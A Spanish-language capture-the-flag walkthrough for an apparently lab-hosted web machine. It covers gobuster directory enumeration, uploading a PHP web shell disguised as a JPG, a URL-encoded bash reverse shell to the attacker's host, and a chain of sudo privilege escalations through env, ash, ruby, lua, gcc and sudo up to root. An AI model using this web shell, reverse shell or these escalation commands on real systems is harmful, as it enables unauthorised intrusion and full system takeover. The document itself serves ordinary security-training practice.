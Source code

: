 nmap:  80

![image](https://github.com/user-attachments/assets/206a9c1a-9a66-4136-b0f9-050aa3a76ad0)


---
dentro de la pagina podemos ver que nos da un mensaje al abrir el ascensor:

![image](https://github.com/user-attachments/assets/43924d93-9367-4f22-9921-583d71be6e11)

![image](https://github.com/user-attachments/assets/7e847733-9588-4015-94c3-874fb076e3e1)

al hacer una ataque de fuerza bruta a los directorios  nos mostrara un "themes",

      gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt -k

![image](https://github.com/user-attachments/assets/6b57711b-3b7a-4c5a-9ec9-8278ccd4ea80)


ahora si hacemos otra vez un gobuster pero agregando el "themes" 

      gobuster dir -u http://172.17.0.2/themes -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt -k


y nos dará algunos importantes

![image](https://github.com/user-attachments/assets/3582ef9d-7e61-442d-80d0-9124e65d5e37)


si ingresamos al primero o sea al uploads nos mandara a una subida de archivos

![image](https://github.com/user-attachments/assets/a369a585-4f64-44ec-aea7-50398bcbd6e1)


como también me dio: archivo.html nos vamos ahí y vemos que podemos subir archivos pero solo archivos JPG

![image](https://github.com/user-attachments/assets/48ab9e59-7a3a-4580-a1df-2d9ba76fd769)


como solo deja subir archivos "jpg" modificamos un archivo 
> nano shell.php.jpg

dentro tendrá este código:

    - <?php system($_GET['cmd']); ?>

vemos que se subió

![image](https://github.com/user-attachments/assets/1e4b7b39-2209-4d3e-97da-5376f04cf198)

 presionamos el archivo que nos muestra y veremos que no hay nada pero en la URL la modificamos para que quede así:
 
   > 172.17.0.2/themes/uploads/675712b70a259.jpg?cmd=whoami

![image](https://github.com/user-attachments/assets/22fedb8d-23f2-4bda-804c-dccda91b64da)

nos mostrara "www-data" o sea que la vulnerabilidad esta, así que modificamos la terminal con una bash y colocamos el terminal en escucha
dejamos la terminal asi:

> 172.17.0.2/themes/uploads/675712b70a259.jpg?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/172.17.0.1/443%200%3E%261%22

![image](https://github.com/user-attachments/assets/aaf0c7df-4b93-4a68-8979-148e56b1defe)


y ahora dentro si hacemos un "sudo -l" vemos que podemos escalar por "env"

![image](https://github.com/user-attachments/assets/bd7d442b-bb52-466c-b636-4a6d759de53d)

la buscamos: https://gtfobins.github.io/gtfobins/env/

como se que hay otros usuarios pobre y funciono el escalado con daphne:
> sudo -u daphne /usr/bin/env /bin/sh

![image](https://github.com/user-attachments/assets/a63fdff9-756f-4517-a349-cffc7e68426f)


y somos el usuario daphne

al hacer sudo -l da: "ash" la buscamos: https://gtfobins.github.io/gtfobins/ash/

ahora lanzamos asi:
> sudo -u vilma /usr/bin/ash

![image](https://github.com/user-attachments/assets/5acab12d-f16d-4bef-b762-c6b0645db515)


y somos vilma

ahora al hacer sudo -l da que es ruby buscamos donde mismo y lanzamos asi:
> sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'

![image](https://github.com/user-attachments/assets/c20e64b8-a8ba-4190-aa46-c2f5a49597b1)


ahora somos shaggy y entonces ahora buscamos como escalar y aparece "lua"

lanzamos el comando así:
> sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'

![[usuario4.png]]

somos fred

podemos escalar con gcc y donde mismo buscamos y lanzamos el comando:
> sudo -u scooby /usr/bin/gcc  -wrapper /bin/sh,-s .

![[usuario5.png]]

somos scooby

ahora al hacer sudo -l podemos  ver que se escala por "sudo", modifico  el codigo para que se vea de esta forma:
> sudo -u root /usr/bin/sudo /bin/bash

![[dockerlabs/facil/elevador/root.png]]

y somos root! 
